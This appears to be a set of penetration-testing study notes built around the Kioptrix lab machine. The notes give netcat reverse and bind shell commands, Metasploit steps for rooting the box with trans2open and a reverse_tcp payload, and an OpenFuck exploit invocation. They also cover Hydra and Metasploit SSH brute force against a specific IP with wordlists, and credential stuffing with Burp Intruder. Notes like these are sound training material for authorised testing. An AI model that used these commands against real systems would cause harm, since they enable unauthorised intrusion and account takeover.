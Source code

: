 # Reverse Shells vs Bind Shells

## Reverse Shell
> - `nc` - netcat
>   - `nc -nvlp <port number>`
> - victim connects to attack box
>   - victim connecting / attack box listening
> - Most common shell by far

## Bind Shell
> - open a port on target machine, then attack box connects to victim
> - useful when bypassing a firewall or when reverse shell just doesn't work
> - netcat
>   - `nc <IP Address> <port number>`

<br /><br />

# Staged vs. Non-Staged Payloads

## Staged
> - Sends exploit shellcode in stages
> - Can be less stable
> - Example
>   - `windows/meterpreter/reverse_tcp`
>   - think of each slash as a stage

## Non-Staged
> - Send exploit shellcode all at once
> - Larger in size and doesn't always work
> - Example
>   - `windows/mterpreter_reverse_tcp`

##### `If one doesn't work, use the other`

<br /><br />

# Gaining root with Metasploit

## Metasploit
> `using Kioptrix test machine for these notes`
1. in metasploit console `search trans2open`
2. `use <linux option>`
   -  ##### We use Linux option, since we know the target is operating on a Linux distribution
3. `options`
4. `set rhosts <IP Address>`
5. `run`

> `Execute fails, shell dies repeatedly. Use non-staged payload instead.`
  
1. run `options` again to get payload options
2. `set payload linux/x86/shell_reverse_tcp`
   - ##### first non-staged payload found 
3. `run`

> `Successfully gain root access with remote shell`

## Manual Exploitation
- Using OpenLuck exploit listed under Vulnerabilities
- Install OpenLuck per instructions in GitHub repo for OpenLuck
  - `./OpenFuck`
    - brings up a "man page"
  - `./OpenFuck target box [port] [-c N]`
    - target &rarr; support offset
    - box &rarr; IP address or hostname
    - -c &rarr; open N connections, 40-50 if unknown
- `./OpenFuck 0x6b <IP Address> -c 40`

> `Successfully gain root access with remote shell`

<br /><br />

# Brute Force Attacks

## SSH
- Brute force is one of few ways to break through SSH
  - In a PenTest, it can be a good thing to try to get caught by the blue team
  
## Hydra
- `hydra -l root -P /usr/share/wordlists/metasploit/unix_password.txt ssh://<IP Address:Port> -t 4 -V`

## Metasploit
- `msfconsole`
- `search ssh`
  - `use scanner/ssh/ssh_login`
    - `options`
      - `set username root`
      - `set pass_file /usr/share/wordlists/metasploit/unix_passwords.txt`
      - `set rhosts 192.168.57.134`
    - `run`

<br /><br />

# Credential Stuffing and Password Spraying

## Credential Stuffing
> &rarr; Injecting breached account credentials in hopes of account takeover

## Burp Suite for Credential Stuffing
> - Through Proxy w/ intercept on
>   1. Rclick > send to intruder
>   2. Positions > clear
>   3. Select user/email & password field
>   4. Select attack type
>       - Sniper uses 1 param, pitchfork uses 2+
>   5. In first payload, paste list of users
>   6. In second payload, paste list of passwords
>   7. Start attack
> - Investigate responses
>      - status 200, 301 (redirect)
> - When doing a pentest on AD be careful not to lock out users
>    <br />&rarr; Ask what lockout policy is